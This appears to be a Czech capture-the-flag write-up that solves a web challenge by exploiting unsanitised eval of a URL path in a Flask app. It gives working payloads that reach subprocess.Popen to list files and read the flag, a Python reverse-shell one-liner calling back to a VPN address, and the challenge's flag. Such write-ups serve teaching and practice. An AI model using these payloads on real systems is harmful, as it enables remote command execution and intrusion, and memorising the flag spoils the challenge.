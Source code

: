 # Streamlining portal (3)

## Zadání

Hi, packet inspector,

the AI is preparing some kind of employee streamlining portal on <http://user-info.mysterious-delivery.tcc>. We fear this will lead to more lost packages.

Your task is to break into the web and find interesting information on the server.

May the Packet be with you!

`Note: Solving this challenge will open 1 new challenge.`

## Nápovědy (Hints)

1\. Use VPN to get access to the web.

## Řešení

K řešení této úlohy je potřeba připojení pomocí VPN z úlohy [VPN access](../01_VPN_access/README.md)

Po otevření stránky z odkazu v zadání je adresa automaticky přesměrována na <http://user-info.mysterious-delivery.tcc/hello/user> a zároveň je na stránce zobrazeno `Hello user`. Pokud v URL změníme `user` na `CTF`, je zobrazeno `Hello CTF`. Cesta tedy povede nahrazením `user` za něco jiného.

Po zadání URL

`http://user-info.mysterious-delivery.tcc/hello/{'"/>`

ohlásí server chybu `Internal Server Error`. Problémovým znakem jsou uvozovky `"`.

Z HTTP hlavičky `Server: gunicorn` se dá zjistit, že se jedná o program v Pythonu napsaný zřejmě pomocí frameworku Flask.

Po chvilce zkoušení je zřejmé, že se jedná o chybu neošetřeného zpracování části URL.

`http://user-info.mysterious-delivery.tcc/hello/asd"+"qwe`

odpoví server `Hello asdqwe`.

Na adresu

`http://user-info.mysterious-delivery.tcc/hello/asd"+str(11+22)+"qwe`

odpoví server `Hello asd33qwe`.

---
Z výstupu

`http://user-info.mysterious-delivery.tcc/hello/asd"+str("".__class__)+"qwe>`

, který je `Hello asd<class 'str'>qwe` je zřejmé, že útok povede přes `Server Side Template Injection` nebo obdobnou cestu. Viz <https://kleiber.me/blog/2021/10/31/python-flask-jinja2-ssti-example/>.

PS: Nakonec se nejedná o útok SSTI, ale o neošetřené zpracování vstupu do funkce `eval`. Viz zdrojové soubory úlohy [app.tar.gz](app.tar.gz).

---
Nejprve zjistíme všechny třídy, které můžeme použít

`http://user-info.mysterious-delivery.tcc/hello/"+str([].__class__.__base__.__subclasses__())+"`

Výstup si pomocí jednoduchého programu převedeme tak, abychom měli na každé řádce index a název třídy.

```python
data = "<class 'type'>, <class 'async....."
data = data.split(",")
cnt = 0
for item in data:
    print(cnt, item)
    cnt = cnt + 1
```

---
Zajímá nás index 279, který obsahuje třídu `subprocess.Popen`. Pomocí ní je možné vzdáleně volat na serveru programy. Vylistujeme si obsah aktuálního adresáře.

`http://user-info.mysterious-delivery.tcc/hello/"+str([].__class__.__base__.__subclasses__()[279]('ls -al',shell=True,stdout=-1).communicate())+"`

Výsledkem je po opravě odřádkování

```text
total 28
drw-r-xr-x 1 root root 4096 Sep  9 09:19 .
drwxr-xr-x 1 root root 4096 Sep  9 09:19 ..
drwxr-xr-x 1 root root 4096 Sep 27 10:46 FLAG
drw-rw-rw- 2 root root 4096 Sep  9 09:19 __pycache__
-rw-r-xr-x 1 root root  457 Sep  9 09:16 app.py
drwxr-xr-x 1 root root 4096 Sep  9 09:16 templates
```

---
Vylistujeme si adresář FLAG

`http://user-info.mysterious-delivery.tcc/hello/"+str([].__class__.__base__.__subclasses__()[279]('ls -al FLAG',shell=True,stdout=-1).communicate())+"`

```text
total 16
drwxr-xr-x 1 root root 4096 Sep 27 10:46 .
drw-r-xr-x 1 root root 4096 Sep  9 09:19 ..
-r--r--r-- 1 root root 26   Sep 27 10:46 flag.txt
```

---
Tady je už hledaný flag, který si stačí jen zobrazit

`http://user-info.mysterious-delivery.tcc/hello/"+str([].__class__.__base__.__subclasses__()[279]('cat FLAG/flag.txt',shell=True,stdout=-1).communicate())+"`

Po zadání flagu se odemkne další úloha [Streamlining portal NG](../14_Streamlining_portal_NG/README.md).

K řešení úloh tohoto typu je možné využít více postupů.

Jednodušší způsob, jak zobrazit flag

`http://user-info.mysterious-delivery.tcc/hello/"+open('FLAG/flag.txt').read()+"`

---
Díky připojení do VPN a tomu, že je IP adresa VPN připojení dostupná ze serveru, je možné zadáním vhodného payloadu spustit `Reverse shell`. Payloady je možné najít třeba zde <https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md> nebo si ho nechat vygenerovat zde <https://www.revshells.com/>.

---
Zkusíme, jestli můžeme použít Python

`http://user-info.mysterious-delivery.tcc/hello/"+str([].__class__.__base__.__subclasses__()[279]('python --version',shell=True,stdout=-1).communicate())+"`

Odpověď `Hello (b'Python 3.10.6\n', None)`.

---
Pro IP adresu VPN připojení 10.20.0.10 pak stačí spustit poslouchání na portu 9001

`nc -lvnp 9001`

a zadat URL s payloadem pro Python

`http://user-info.mysterious-delivery.tcc/hello/"+str([].__class__.__base__.__subclasses__()[279]('python -c %5c"import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%5c'10.200.0.10%5c',9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(%5c'bash%5c')"',shell=True))+"`

Pokud jsme vše správně nastavili, máme shell na cílový server a můžeme se volně procházet a spouštět příkazy

```shell
~ $ nc -lvnp 9001
Listening on [0.0.0.0] (family 2, port 9001)
Connection from 10.99.0.115 53226 received!
challengeuser@e6b83ccf7e8b:/app$ ls -al
ls -al
total 28
drw-r-xr-x 1 root root 4096 Sep  9 09:19 .
drwxr-xr-x 1 root root 4096 Sep  9 09:19 ..
drwxr-xr-x 1 root root 4096 Sep 27 10:46 FLAG
drw-rw-rw- 2 root root 4096 Sep  9 09:19 __pycache__
-rw-r-xr-x 1 root root  457 Sep  9 09:16 app.py
drwxr-xr-x 1 root root 4096 Sep  9 09:16 templates
challengeuser@e6b83ccf7e8b:/app$
```

Ze serveru je tak možné jednoduše cokoliv stahovat nebo tam nahrávat (ps, kill, atd.)

V souboru [app.tar.gz](app.tar.gz) jsou stažené zdrojové soubory serveru.

## Flag

`FLAG{OONU-Pm7V-BK3s-YftK}`
